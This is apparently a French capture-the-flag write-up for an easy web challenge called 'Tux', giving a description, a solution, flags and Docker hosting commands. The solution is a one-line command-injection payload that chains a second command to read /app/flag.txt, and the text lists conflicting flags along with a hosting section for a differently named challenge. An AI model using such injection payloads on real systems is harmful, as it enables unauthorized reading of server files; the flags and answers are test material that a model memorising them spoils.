# Tux (EASY)

## Auteur(s) :

`Hokanosekai`

## Catégorie : 

`Web`

## Description :

Des étudiants ont créé un site web à l'effigie de notre cher Tux. Cependant, ils ont commis une erreur... Déccouvrez la !

> Note : Le flag se situe dans `/app/flag.txt`

**Flag** `UHOCTF{Fake_flag}` 

---

## Solution

Voici mon payload : 

```
2 > /dev/null; cat /app/flag.txt

```

**Flag** `UHOCTF{Un_M4nch07_n'3s7_p4s_un_P1n90u1n}`

## Hosting

```bash
sudo docker build -t laliste .
sudo docker network create -d bridge laliste
```

The command to start the challenge is:

```bash
sudo docker run -p 40015:40000 --detach --name laliste --network laliste laliste:latest
```

The command to stop the challenge (since CTRL+C won't work) is:

```bash
sudo docker stop laliste
```


**Flag** - `UHOCTF{N0n_J3_RigolE_Tu_Peux_Resterehe}`
